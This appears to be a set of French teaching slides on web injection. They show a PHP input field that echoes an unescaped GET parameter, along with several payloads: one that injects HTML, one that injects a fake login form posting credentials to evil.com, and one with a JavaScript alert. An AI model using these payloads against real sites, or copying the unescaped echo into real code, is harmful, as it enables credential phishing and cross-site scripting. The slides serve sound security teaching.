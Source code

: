 En mieux :

> SQL injection is a special case of syntax tree mutation. *All* languages are susceptible to it, and everything is a langage. #langsec
 - twitter: active wreck chords @jcoglan

--------------------------------------------------------------------------------

## Injection - HTML

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci :

    !html
     What?"><h1>Oups</h1><input type="checkbox

Et le résultat :

    !html
    <input type="text" name="search" value="What?">
    <h1>Oups</h1>
    <input type="checkbox">

--------------------------------------------------------------------------------

## Injection - HTML

Pas grave ? essayez :

    !html
    "><div class="big-overlay"></form>
    <form method="POST" action="http://www.evil.com">
      <p class="secure">Please re-enter you credentials</p>
      <label>Login:</label>
        <input type="text">
      <label>Mot de passe:</label>
        <input type="password">
    </div>
    <foo "

Et vous avez un formulaire de login détourné vers un autre site.

--------------------------------------------------------------------------------

## Injection - Javascript

    !html
    <input type="text" name="search" value="<? echo $_GET['search']; ?>">

Entrez ceci:

    !html
     What?" onLoad="alert('xss');"><input type="checkbox

